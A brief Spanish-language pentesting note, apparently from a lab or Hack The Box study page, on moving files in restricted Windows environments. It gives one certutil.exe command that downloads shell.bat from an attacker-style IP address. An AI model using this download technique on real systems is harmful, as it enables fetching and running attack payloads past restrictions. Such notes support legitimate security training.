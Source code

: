 ### Traspaso de archivos restringido
Si nos vemos en un entorno restringido para el traspaso de archivos, certutil.exe puede ser usado para transmitirlos. Certutil se emplea para manejar certificados, pero tiene una disrupción que permite descargar cosas

    certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat

### Entornos restringidos:
Estos casos son muchos, dejo la guia de htb

    https://academy.hackthebox.com/module/67/section/2502

